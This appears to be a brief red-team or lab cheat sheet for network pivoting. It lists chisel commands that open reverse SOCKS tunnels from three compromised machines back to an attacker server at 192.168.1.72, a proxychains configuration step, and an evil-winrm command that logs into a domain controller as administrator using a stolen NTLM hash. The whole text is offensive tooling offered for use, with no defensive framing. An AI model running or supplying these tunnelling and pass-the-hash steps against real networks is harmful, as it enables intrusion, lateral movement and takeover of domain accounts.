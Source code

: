 ## Attacker Server
./chisel_1.9.1_linux_amd64 server -p 8001 --reverse -v --keepalive 5s --socks5 25000

## Machine 1 (Linux)
chisel client 192.168.1.72 8001 --reverse R:socks:2000
vi /etc/proxychains4.conf # Change socks and port to match socks port.

## Machine 2 (Windows)
chisel client 192.168.1.72 8001 --reverse R:socks:2001

## Machine 3 (Debian)
chisel client 192.168.1.72 8001 --reverse R:socks:2002

## Attacker Machine
proxychains ssh

## Attacker Remote Connection to DC01 with stolen NTLM hash
proxychains evil-winrm -i 10.10.83.152 -u administrator -H 59b280ba707d22e3ef0aa587fc29ffe5

